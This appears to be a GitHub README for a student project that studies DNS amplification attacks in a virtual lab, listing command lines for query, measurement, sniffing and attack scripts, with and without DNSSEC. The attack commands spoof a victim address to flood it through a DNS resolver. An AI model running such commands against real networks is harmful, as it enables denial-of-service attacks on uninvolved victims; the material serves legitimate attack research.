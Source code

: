 # Development and Study of a DNS Amplification Attack in a Virtual Environment

The aim of this project was to implement the scripts on this Github repository in order to study the DNS Amplification attack in a controlled virtual environment. You will find various scripts within this project.

## DNS Query Script for Amplification Rate Calculation: sendQuery.py

To launch this script, simply run the following command from the folder containing the entire project on the attacker machine.

Without DNSSEC:
```bash
sudo python3.9 attack/sendQuery.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60
```
With DNSSEC:
```bash
sudo python3.9 attack/sendQuery.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 --dnssec
```

## DNS Server Amplification Rate Calculation Script: calculateAF.py

To launch this script, simply run the following command from the folder containing the entire project on the server machine.

Without DNSSEC:
```bash
sudo python3 server/calculateAF.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io
```
With DNSSEC:
Without DNSSEC:
```bash
sudo python3 server/calculateAF.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io --dnssec
```

## DNS Traffic Sniffing Script: viewTraffic.py

To launch this script, simply run the following command from the folder containing the entire project on the victim machine.

Without DNSSEC:
```bash
sudo python3 victim/viewTraffic.py
```
With DNSSEC:
```bash
sudo python3 victim/viewTraffic.py --dnssec
```

## DNS Amplification Attack Script: dnsAttack.py

To launch this script, simply run the following command from the folder containing the entire project on the attacker machine.

Without DNSSEC:
```bash
sudo python3.9 attack/dnsAttack.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 -n <Number of process>
```
With DNSSEC:
```bash
sudo python3.9 attack/dnsAttack.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 -n <Number of process> --dnssec
```

## Scenarios of use

To illustrate how different scripts can be used to observe and study this attack, here are several videos featuring different usage scenarios.

### First Scenario

This scenario shows how an attacker can run the sendQuery.py script to launch DNS queries designed to measure amplification factors. This scenario also shows how to run the calculateAF.py script on the DNS server in order to calculate and observe amplification factors. Finally, this scenario shows how to run the viewTraffic.py script on the victim machine, in order to observe DNS traffic and performance on this machine.

#### Without DNSSEC
![](video/dns-calculateAF-full.gif)

#### With DNSSEC
![](video/dnssec-calculateAF-full.gif)

### Second Scenario

This scenario shows how to run the viewTraffic.py script on the victim machine to observe DNS traffic and performance. This script also shows how to run the dnsAttack.py script to launch the attack from the attacking machine, in order to observe the consequences of this attack on the victim's side.

#### Without DNSSEC
![](video/dnsAttack-without-dnssec-full.gif)

#### With DNSSEC
![](video/dnsAttack-dnssec-full.gif)
